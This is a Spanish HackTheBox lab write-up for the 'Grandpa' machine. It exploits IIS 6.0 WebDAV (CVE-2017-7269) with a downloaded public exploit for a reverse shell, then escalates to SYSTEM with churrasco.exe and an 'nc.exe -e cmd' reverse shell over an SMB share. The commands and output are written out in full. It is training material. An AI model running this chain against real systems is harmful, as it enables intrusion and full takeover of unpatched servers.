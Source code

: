 ```yaml
---
title: HTB - Grandpa
published: true
categories: [Windows]
tags: [eJPT, eWPT, OSCP, Fácil]
---
```



<img src="/assets/HTB/Grandpa/grandpa.png">


¡Hola!
Vamos a resolver de la máquina `Grandpa` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Microsoft IIS 6.0 - CVE-2017-7269**
- **Churrasco [Privilege Escalation]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Grandpa`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.14
PING 10.10.10.14 (10.10.10.14) 56(84) bytes of data.
64 bytes from 10.10.10.14: icmp_seq=1 ttl=127 time=42.3 ms

--- 10.10.10.14 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Windows** debido a su ttl (time to live) correspondiente a 127 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.14 -oG allPorts

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p80 10.10.10.14 -oN targeted

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Date: Sat, 29 Oct 2022 09:56:24 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
### Reconocimiento Web

* * *

Iniciamos el reconocimiento del servicio web con la herramienta `whatweb` la cual nos muestra información sobre las tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados.

```bash
whatweb 10.10.10.14

http://10.10.10.14 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

### IIS Exploit

* * *

Observamos que la máquina víctima está corriendo bajo **Microsoft IIS 6.0**. Tras una búsqueda en Google encontramos que esta versión de IIS es vulnerable al exploit [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-7269) por lo que utilizaremos la herramienta del github de [g0rx](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) que nos va a generar una reverse shell directamente con la máquina víctima.

Descarga de exploit

```bash
cd ../exploits
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
mv iis6\ reverse\ shell iisExploit.py
```
Ejecutamos el exploit y nos indica el modo de uso

```bash
python iisExploit.py
usage:iis6webdav.py targetip targetport reverseip reverseport
```

Creamos un listener

```bash
rlwrap nc -lnvp 443
```

Ejecutamos el exploit

```bash
python iisExploit.py 10.10.10.14 80 10.10.14.94 443
```
Reverse Shell

```bash
listening on [any] 443 ...
connect to [10.10.14.94] from (UNKNOWN) [10.10.10.14] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

### Escalada Privilegios

* * *

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar la enumeración de permisos y tareas con la finalidad de lograr escalar privilegios.

Enumeración privilegios de usuario

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

Detectamos que tenemos el privilegio asignado `SeImpersonatePrivilege` gracias al cual podemos escalar privilegios con la variante de la herramienta `JuicyPotato.exe` denominada `churrasco.exe`, procedemos a su descarga en el directorio de trabajo `exploits` desde el GitHub de [Re4son](https://github.com/Re4son/Churrasco/)

```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```
También nos descargamos en el directorio de trabajo la herramienta `nc.exe` del repositorio de GitHub de [int0x33](https://github.com/int0x33/nc.exe/)

Proecedemos a subir la herramienta `churrasco.exe` a la máquina víctima creando un recurso compartido a nivel de red con `impacket-smbserver`

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

En la máquina víctima ingresamos a la carpeta `C:\Windows\Temp`, creamos la carpeta `privesc` y copiamos el archivo `churrasco.exe`

```bash
cd c:\Windows\Temp
md privesc
cd privesc
copy \\10.10.14.94\smbFolder\churrasco.exe churrasco.exe
```

Creamos un listener

```bash
rlwrap nc -lnvp 443
```

Ejecutamos en la máquina víctima `churrasco.exe` para que ejecute con privilegios `nc.exe` y así establecer una reverse shell con privilegios de `nt authority\system`

```bash
churrasco.exe "\\10.10.14.94\smbFolder\nc.exe -e cmd 10.10.14.94 443"
```

Obtenemos una shell como `nt authority\system`

```bash
whoami
nt authority\system
```

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en sus respectivos directorios. Con el comando `type` nos muestra el contenido.

```bash
#USER
cd c:\
dir /b/s user.txt
C:\Documents and Settings\Harry\Desktop\user.txt
```

```bash
#ROOT
dir /b/s root.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```

Hemos completado la máquina **Grandpa** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Grandpa/pwned.png">
